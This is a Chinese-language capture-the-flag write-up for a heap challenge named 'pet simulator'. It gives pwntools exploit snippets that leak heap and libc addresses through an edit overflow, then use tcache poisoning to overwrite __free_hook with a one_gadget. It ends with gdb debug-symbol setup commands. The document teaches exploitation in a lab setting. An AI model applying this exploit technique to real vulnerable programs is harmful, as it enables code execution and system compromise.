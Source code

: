 # pet simulator  
堆题，保护全开。这题一开始忘给libc附件了，我不知道是tcache所以一开始没敢做，然后free后发现有tcache的特征才确认。  
**add**  
![](./pics/add.png)  
**show**  
![](./pics/show.png)  
**del**  
![](./pics/del.png)  
**edit**  
![](./pics/edit.png)  
**comment**  
![](./pics/comment.png)  
发现edit可以覆盖到下一个chunk的前一部分，因此可以把tcache中的指针泄露出来。  
```
add()
add()
add()
free(1)
edit(0,b'a'*0x40)
show(0)
p.recvuntil(b'a'*0x40)
getaddr=u64(p.recv(6).ljust(8,b'\x00')) #堆地址
print('getaddr:',hex(getaddr))
edit(0,p64(0)*6+p64(0x61)+p64(0))#还原
```
得到堆地址后利用tcache投毒，使新的chunk开到有libc函数地址的地方，用show打印出来就行了。  
![](./pics/gdb.png)  
gdb调试发现在getaddr+0x7a0附近就有libc，选择这个地方的另一个原因是chunk开在这后size为0x1e1，free时不会出错（这题最多只能开3个chunk，资源非常紧张，我一开始为了得到libc开在其他地方，由于size为0不能free，耽误了好久）  
```
add()
add()
edit(2,b'a'*0x40)
show(2)
p.recvuntil(b'a'*0x40)
libcaddr=u64(p.recv(6).ljust(8,b'\x00')) #libc地址
print('libcaddr:',hex(libcaddr))
libcbase=libcaddr-libc.sym['_IO_2_1_stderr_']
print('libcbase:',hex(libcbase))
free_hook=libcbase+libc.sym['__free_hook']
print('free_hook:',hex(free_hook))
one_gadget=libcbase+0xe3b01
system_addr=libcbase+libc.sym['system']
```
得到的其实是_IO_2_1_stderr_的地址，由此可以得到libcbase。  
最后再次利用一次tcache投毒使free_hook为one_gadget即可  
```
edit(2,b'\x00'*0x50)
free(2)
add()

free(2)
free(1)
edit(0,p64(0)*6+p64(0x61)+p64(free_hook-0x40))
add()
add()
edit(2,p64(0)*3+p64(one_gadget))
free(0)
p.interactive()
```
注意如果当时为了得到libc时开的chunk不能free，那么就不能完成最后一次投毒。  
整个过程没用到comment函数，感觉这个函数没啥作用。  

另外，做这题时还学到了另一个东西，就是当时gdb调试时libc切到了2.31 9.9导致我heap和bin看不了（其他版本的都可以看，很离谱），最后像瞎子一样摸才摸出这道题来。  
![](./pics/noheap.png)  
现在得知了方法，那就是在patchelf之后要把debug目录进行替换，否则就可能出现heap看不了的情况。  
![](./pics/fix.png)  
```
rm -rf /usr/lib/debug
cp -r /home/cutecabbage/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/.debug/ /usr/lib/debug
```
heap恢复正常！
![](./pics/canheap.png)  

